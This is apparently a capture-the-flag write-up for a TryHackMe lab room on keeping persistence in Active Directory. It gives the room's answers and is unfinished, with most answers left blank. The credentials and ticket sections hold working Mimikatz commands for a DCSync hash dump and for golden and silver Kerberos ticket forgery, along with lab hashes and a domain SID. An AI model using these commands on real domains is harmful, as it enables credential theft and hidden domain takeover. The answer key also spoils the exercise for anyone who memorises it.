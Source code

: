 ![Persisting Active Directory Banner](https://assets.tryhackme.com/room-banners/attacking-ad.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/persistingad/Persisting_Active_Directory_Cover.png" alt="Persisting Active Directory Logo">
</p>

# Persisting Active Directory

This guide contains the answer and steps necessary to get to them for the [Persisting Active Directory](https://tryhackme.com/room/persistingad) room.

## Table of contents

- [Persistence through Credentials](#persistence-through-credentials)
- [Persistence through Tickets](#persistence-through-tickets)
- [Persistence through Certificates](#persistence-through-certificates)
- [Persistence through SID History](#persistence-through-sid-history)
- [Persistence through Group Membership](#persistence-through-group-membership)
- [Persistence through ACLs](#persistence-through-acls)
- [Persistence through GPOs](#persistence-through-gpos)

### Persistence through Credentials

1. What is the Mimikatz command to perform a DCSync for the username of test on the za.tryhackme.loc domain?

   The answer can be found in the text.

   ><details><summary>Click for answer</summary>lsadump::dcsync /domain:za.tryhackme.loc /user:test</details>

2. What is the NTLM hash associated with the krbtgt user?

   Lets ssh into `thmwrk1` using our DA account (don't use your ad user account).

   We now open `mimikatz`, set a log file and execute a dcsync on all account.

   ```cmd
   log kevinovitz_dcdump.txt
   lsadump::dcsync /domain:za.tryhackme.loc /all
   ```

   DCDUMP

   ><details><summary>Click for answer</summary>16f9af38fca3ada405386b3b57366082</details>

### Persistence through Tickets

In this task we can create a golden and silver ticket using the information we have found so far. For this we need:

- domain name: za.tryhackme.loc
- domain SID: S-1-5-21-3885271727-2693558621-2658995185
- some username: notmyreallaccount
- krbtgt NTLM hash: 16f9af38fca3ada405386b3b57366082
- target NTLM hash: 4c02d970f7b3da7f8ab6fa4dc77438f4

Golden ticket:

```cmd
kerberos::golden /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185 /id:500 /admin:notmyreallaccount /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10000 /ptt
```

We can see we now have access to the dc and server1.

GOLDEN

Silver ticket:

```cmd
kerberos::golden /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185 /user:notmyreall
account /target:thmserver1.za.tryhackme.loc /rc4:4c02d970f7b3da7f8ab6fa4dc77438f4 /service:cifs /ptt
```

We now only have access to server1

SILVER

1. Which AD account's NTLM hash is used to sign Kerberos tickets?

   The answer can be found in the text.

   ><details><summary>Click for answer</summary>krbtgt</details>

2. What is the name of a ticket that impersonates a legitimate TGT?

   The answer can be found in the text.

   ><details><summary>Click for answer</summary>Golden ticket</details>

3. What is the name of a ticket that impersonates a legitimate TGS?

   The answer can be found in the text.

   ><details><summary>Click for answer</summary>Silver ticket</details>

4. What is the default lifetime (in years) of a golden ticket generated by Mimikatz?

   The answer can be found in the text.

   ><details><summary>Click for answer</summary>10</details>

### Persistence through Certificates

1. What key is used to sign certificates to prove their authenticity?



   ><details><summary>Click for answer</summary></details>

2. What application can we use to forge a certificate if we have the CA certificate and private key?



   ><details><summary>Click for answer</summary></details>

3. What is the Mimikatz command to pass a ticket from a file with the name of ticket.kirbi?



   ><details><summary>Click for answer</summary></details>

### Persistence through SID History

1. What AD object attribute is normally used to specify SIDs from the object's previous domain to allow seamless migration to a new domain?



   ><details><summary>Click for answer</summary></details>

2. What is the database file on the domain controller that stores all AD information?



   ><details><summary>Click for answer</summary></details>

3. What is the PowerShell command to restart the ntds service after we injected our SID history values?



   ><details><summary>Click for answer</summary></details>

### Persistence through Group Membership

1. What is the term used to describe AD groups that are members of other AD groups?



   ><details><summary>Click for answer</summary></details>

2. What is the command to add a new member, thmtest, to the AD group, thmgroup?



   ><details><summary>Click for answer</summary></details>

### Persistence through ACLs

1. What AD group's ACLs are used as a template for the ACLs of all Protected Groups?



   ><details><summary>Click for answer</summary></details>

2. What AD service updates the ACLs of all Protected Groups to match that of the template?



   ><details><summary>Click for answer</summary></details>

3. What ACL permission allows the user to perform any action on the AD object?



   ><details><summary>Click for answer</summary></details>

### Persistence through GPOs

1. What MMC snap-in can be used to manage GPOs?



   ><details><summary>Click for answer</summary></details>

2. What sub-GPO is used to grant users and groups access to local groups on the hosts that the GPO applies to?



   ><details><summary>Click for answer</summary></details>

3. What tab is used to modify the security permissions that users and groups have on the GPO?



   ><details><summary>Click for answer</summary></details>

